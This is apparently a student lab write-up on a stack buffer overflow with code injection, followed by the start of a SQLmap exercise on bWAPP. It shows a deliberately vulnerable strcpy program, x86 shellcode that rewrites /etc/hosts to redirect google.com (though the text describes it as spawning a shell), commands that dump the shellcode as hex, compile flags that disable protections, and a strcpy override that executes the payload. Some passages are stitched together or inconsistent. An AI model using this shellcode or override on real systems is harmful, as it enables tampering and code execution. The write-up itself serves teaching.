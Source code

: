 # Lab #1,22110067, Nguyen Quang Sang, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
## Compiling the code
*Given the code below*
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
Now, we have to execute it as # Code injection using Buffer Overflow

```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[64];
    if (argc == 1)
        printf("missing argument\n");
    else
        strcpy(buf, argv[1]);
    printf("buf: 0x%x\n", (unsigned int)buf);
    return 0;
}
```

Target: Inject a snippet of code into the program. In this lab, we will inject a snippet of assembly code to spawn a new shell.

## 1. Write shellcode

### 1.1. Write shellcode

We will write a program in assembly language. This program will spawn a new shell `/bin/sh`. The program is saved as `shellcode.asm`.

```assembly
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

**Compile the program**

To compile the program, run the following script:

```bash
nasm -g -f elf shellcode.asm
```
![Example image]([https://example.com/image.png](https://github.com/sang-ute/INSE-Lab/blob/main/Lab%231/img/vuln.c%20and%20out.PNG))

A new file `shellcode.o` is created.

And to link the the code to create executable file:

```bash
ld -m elf_i386 -o shellcode shellcode.o 
```

**Result**



A new file `shellcode` is created.

---

### 1.2. Generate hex string

To inject the above assembly code snippet, we need to generate the hex values so that we can use those values as input.

**Print string onto terminal**

Run the following script to generate the hex string of shellcode and print it onto terminal.

```bash
for i in $(objdump -d sh |grep "^ "|cut -f2); do echo -n '\x'$i; done; echo
```

Result:


**Generate binary file**

Another method is to created a binary file of shellcode if injecting by reading the file

```bash
for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> shellcode.bin; done;
```

Result


---

### 1.3. Calculations

We need to estimate the size of vulnerable program with input strings of various length.

First, the program must be compiled with option `-fno-stack-protector` to disable the stack protector. Also, we need to allow the program to execute code on stack with option `-z execstack`.

```bash
gcc vuln.c -o vuln.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=3 
```
![Example image]([https://example.com/image.png](https://github.com/sang-ute/INSE-Lab/blob/main/Lab%231/img/vuln.c%20and%20out.PNG))

Secondly, estimate the buffer size of the program. Notice that there is a char variable named `buf` with the size of 64 bytes. The following picture represent the stack frame of the `main()` function of the vulnerable program.



We can easily see that from `esp` to `eip`, there are 24 bytes, with 16 bytes of `buf`, 4 bytes of `ebp`, and 4 bytes of `eip`.

 Now we need to count how many bytes there are. A trick to do it fast is using `Ctrl + F` to find `x`.


The program is 77 bytes long. When we inject the hex string of the program into the stack, it takes over 77 bytes over 24 bytes of `buf`. To execute the shellcode through a buffer overflow, we need to overwrite the return address on the stack so that, instead of returning to the original caller (or exit), the program jumps to the location in memory where the shellcode is stored—in this case, the `esp` (stack pointer).

We really have a problem here, do we?

## 2. Preparing for the attack
I will try and create a new C file which will revolke the strcpy
```
#include <unistd.h>

void strcpy (char *buffer, const char * arg)
{
execl ("./shellcode", (char*)NULL);
}
```
For now, I will go to terminal of Kali Linux, due to lab 2 needs to be made too
## 3. Attack
**Explanation:**

In this context, the user is explaining the process of compiling a C source file into an object file and then mapping it into a shared object (likely a `.so` file in Unix-like systems). A shared object is similar to a library (like `libc`), which contains predefined functions that can be dynamically linked and used by programs at runtime.

In the example:

1. **Compiling to Object File:** The source file is compiled into an object file.
2. **Mapping to Shared Object:** This object file is then converted into a shared object (likely with the `-shared` option in GCC).
3. **Dynamic Linking:** When a program is executed, it maps the shared object into memory and dynamically links to the functions defined inside the object.
4. **Original Call:** The original program was calling the `strcpy` function.
5. **Renaming Function:** The user has renamed the function to something else but mentions that it’s not a direct copy operation (as `strcpy` would normally do). Instead, it executes another file.

**Explain**

# Task 2: Exploit using SQLmap
## Prepare the enviroment, SQLmap
First, docker pull the bwapp back
![alt text]([http://url/to/img.png](https://github.com/sang-ute/INSE-Lab/blob/main/Lab%231/img/bwaap.PNG))
